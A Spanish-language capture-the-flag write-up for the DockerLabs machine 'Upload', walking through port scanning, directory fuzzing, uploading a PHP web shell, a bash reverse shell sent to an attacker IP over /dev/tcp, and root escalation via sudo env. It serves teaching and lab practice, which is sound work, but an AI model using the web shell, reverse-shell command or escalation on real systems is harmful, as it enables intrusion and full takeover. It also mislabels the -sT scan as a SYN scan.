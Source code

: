 # Máquina Upload

## Reconocimiento
Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver qué puertos tiene abiertos.
Este escaneo realiza un escaneo de todos los puertos disponibles en el host "172.17.0.2", mostrando solo los
puertos abiertos, utilizando el escaneo de tipo TCP SYN ("-sT"), estableciendo una velocidad mínima de envío de paquetes de 5000 por segundo ("--min-rate 5000"), activando el modo de verbosidad extremadamente alto ("-vvv"), desactivando la resolución DNS ("-n"), no realizando el ping previo al escaneo ("-Pn"), y guardando los resultados en formato Greppable en un archivo llamado "allPorts" ("-oG allPorts").

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________

PORT    STATE SERVICE REASON
80/tcp  open  http  syn-ack
```
Vemos que tan solo tiene el **puerto 80 abierto**, es decir, el servicio http, donde estará corriendo una página web que inspeccionaremos en unos instantes.
Lanzamos un conjunto de scripts con el parámetro "-sCV" ("-sC" y "-sV" combinados) para que nos reporte más información.
El comando utiliza el script de versión y detección de servicio, enfocándose únicamente en el puerto 80 ("-p80") del host "172.17.0.2", y guarda los resultados en un archivo de texto plano llamado "targeted" ("-oN targeted").

```shell
nmap -sCV -p80 172.17.0.2 -oN targeted
________________________________________________

PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
```

--------------------

Vemos el título, la versión de Apache, y poca información más. Accedemos a la web para ver ante qué nos enfrentamos.

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/c4132f21-6c6e-4cd9-ac27-ea530c72a24a)

Encontramos un campo de **subida de archivos**. Esto, sumado al nombre de la máquina, nos deja claro que tendremos que abusar de una subida de archivos para intentar ganar acceso a la máquina.
Probamos a subir un archivo txt de prueba:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/73401c36-dd46-4904-91ea-9f9786574e75)

## Fuzzing

Nos indica que se ha subido correctamente. Ahora vamos a tratar de ubicarlo en algún directorio realizando **fuzzing** para descubrir posibles directorios. Para ello usaremos la herramienta **gobuster** y un diccionario de directorios comunes:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
________________________________________________

/icons/               (Status: 403) [Size: 275]
/uploads/             (Status: 200) [Size: 741]
/server-status/       (Status: 403) [Size: 275]
```

Encontramos un **directorio uploads**.
Accedemos a él y encontramos el archivo que hemos subido:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/af16d052-d909-494b-b31e-7d7dc274e296)

También comprobamos que lo podemos abrir y leer sin problemas:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/732d4fff-fbf9-4155-92a2-86cd325f70a2)

Como ya tenemos una ruta donde ubicar los archivos que subimos, vamos a tratar de subir un archivo con código **php malicioso**. Si lo logramos y este es interpretado por la máquina, podremos llegar a ejecutar comandos en la máquina que corre el servicio web, lo que se conoce como **RCE** -> (Remote Code Execution)

## Explotación

Creamos un archivo llamado **cmd.php**
En este incluimos incluiremos el siguiente contenido:

```php
<?php
	system($_GET['cmd']);
?>
```

**GET** es un método de solicitud utilizado en HTTP para enviar datos a un servidor web. Cuando se usa en una URL, como en ?cmd=valor, indica que se está pasando un parámetro llamado cmd con un valor específico. En el
contexto de este código PHP, captura el valor del parámetro cmd pasado en la URL y lo utiliza como un comando para ejecutar en el sistema.

Observamos que la hemos subido correctamente:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/697a6d79-ff64-4d1e-bc2f-d6d8350c774f)

Nos dirigimos como antes al directorio **/uploads** donde lo deberíamos encontrar:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/4fbb15fa-c9a7-4540-9801-22ea4a3de3be)

Observamos que nos está interpretando el php, ya que no aparece el texto que hemos incluido en nuestro cmd.php
Confirmamos que es vulnerable y procedemos a ejecutar un comando.

```
http://172.17.0.2/uploads/cmd.php?cmd=id
```

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/efd2655f-22ad-44b4-92b3-d8157d349460)

En este caso, al acceder a la URL http://172.17.0.2/uploads/cmd.php?cmd=id, estamos utilizando el método GET para enviar un parámetro llamado cmd con el valor id.

El código PHP en el archivo cmd.php  ejecuta el comando del sistema que se pasa como valor de cmd. Por lo tanto, el servidor ejecuta el comando id, que muestra la identificación del
usuario y los grupos a los que pertenece en el sistema operativo.

El siguiente paso, una vez hemos comprobado que tenemos ejecución remota de comandos sobre la máquina, es ejecutar un comando que nos envíe una consola interactiva a nuestra máquina atacante. A esto se le conoce como **Reverse Shell**.
Para ello, nos ponemos en escucha previamente en nuestra máquina atacante, por ejemplo con **netcat**:

```shell
nc -nlvp 443
```

(Es posible que en tu máquina sea necesario **root** para escuchar por el puerto 443)

A continuación, ejecutamos la reverse shell a través de la url como anteriormente el comando id. Le pasaremos el siguiente valor al parámetro cmd:

```shell
http://172.17.0.2/uploads/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.39/443 0>%261" 
```
Los caracteres "**&**" los url-encodearemos para que no nos den problemas (corresponden al **%26**), y la IP en la reverse shell es la correspondiente a nuestra máquina atacante.

Tras ejecutarlo, comprobamos que **hemos ganado acceso a la máquina**.

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/cc007fd1-4766-4a3a-a950-2040f9c3fcb2)

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

## Escalada de privilegios

Una de las primeras comprobaciones que se realiza al ganar acceso a una máquina es ejecutar el comando "**sudo -l**" para listar los permisos de sudo que tiene el usuario actual en el sistema. Muestra qué comandos específicos el usuario puede ejecutar con privilegios elevados utilizando sudo, así como cualquier restricción aplicada a esos comandos.

```shell
sudo -l
```

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/79be4197-1435-47f5-8812-09ed665d2002)

En este caso observamos que podemos ejecutar el binario "**/usr/bin/env**" como el usuario **root**, sin proporcionar contraseña.

Si no sabemos como explotarlo, podemos recurrir a [GTFOBins](https://gtfobins.github.io/) , y si es crítico esta página nos indicará como podemos explotarlo. En este caso es sencillo ya que con env podemos lanzarnos directamente una consola, y al poder ejecutarlo como root, esta consola será lanzada con sus permisos, de forma que hemos logrado el nivel de privilegios máximo sobre la máquina !

```shell
sudo env /bin/sh
whoami
________________________________________________
root
```






